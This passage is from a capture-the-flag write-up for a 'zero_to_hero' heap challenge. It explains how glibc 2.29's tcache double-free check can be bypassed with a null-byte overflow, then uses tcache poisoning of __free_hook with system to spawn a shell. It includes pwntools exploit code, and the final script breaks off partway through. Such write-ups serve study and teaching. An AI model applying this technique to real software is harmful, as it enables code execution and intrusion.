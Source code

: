 We can look at the definition of tcache_entry here - https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c#L2904
```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  struct tcache_perthread_struct *key;
} tcache_entry;
```

It uses the tcache_perthread_struct struct to detect double frees. When a chunk is freed, the key value is set to the address of tcache_perthread_struct for that size. When a chunk is returned from the tcache list, the key value is cleared. Thus, it would be very unusual to have the address of tcache_perthread_struct set for the key position when the chunk is freed. So, if the tcache_perthread_struct address is found there, it iterates over the tcache list for that size and checks for a double free.
If it does, it calls double free detected....

Now, one way would be to somehow nullify the key field of the chunk which is already freed. But this is not possible in our case.

But as we have a null byte overflow bug, the following can be done -
* Create two continuous chunks. (size of the second chunk should be > 0x100)
* Free the first and second chunks.
* Allocate the first chunk again.
* Use the null byte overflow on the first chunk and change the size of the second chunk.
* Now we can again free the second chunk, getting a double free.

```python
malloc(0x18,'a') # First chunk
malloc(0x118,'b') # Second chunk
malloc(0x118,'c') # third chunk (just for tcache count)

free(0) # goes to 0x20 tcache bin
free(2) # goes to 
free(1) # 0x120 tcache bin

malloc(0x18,'A'*0x18) #Allocate chunk 1 back from 0x20 tcache bin and do null byte overflow.
free(1) # chunk 2 size changed to 0x100 so we can double free it.
```

Now that we have a double free, we could simply do tcache poisoning into &__free_hook and write system.
Then freeing a chunk pointing to "/bin/sh\0" will give us a shell.

```python
malloc(0xf8,p64(libc.symbols['__free_hook'])) # tcache poisoning
malloc(0x118,'/bin/sh\x00')
malloc(0x118,p64(libc.symbols['system'])) # malloc returns &__free_hook
free(1) # system("/bin/sh")
```

Final exploit -
```python
#!/usr/bin/env python

from pwn import *

p = process('./zero_to_hero')
e = ELF('./zero_to_hero')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def malloc(size,data):
    p.sendlineafter('> ','1')
    p.sendlineafter('> ',str(size))
    p.sendafter('> ',data)

def free(idx):
```